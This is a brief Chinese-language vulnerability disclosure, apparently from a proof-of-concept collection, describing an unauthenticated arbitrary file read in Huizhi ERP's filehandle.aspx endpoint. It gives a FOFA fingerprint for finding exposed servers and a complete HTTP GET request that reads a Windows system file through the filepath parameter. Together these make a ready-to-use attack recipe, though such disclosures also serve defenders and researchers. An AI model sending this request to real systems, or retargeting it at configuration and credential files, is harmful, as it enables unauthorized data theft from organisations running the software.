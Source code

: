 # 汇智ERP接口filehandle.aspx存在任意文件读取漏洞

汇智ERP filehandle.aspx 接口处任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```yaml
icon_hash="-642591392"
```

## poc

```yaml
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252300220.png)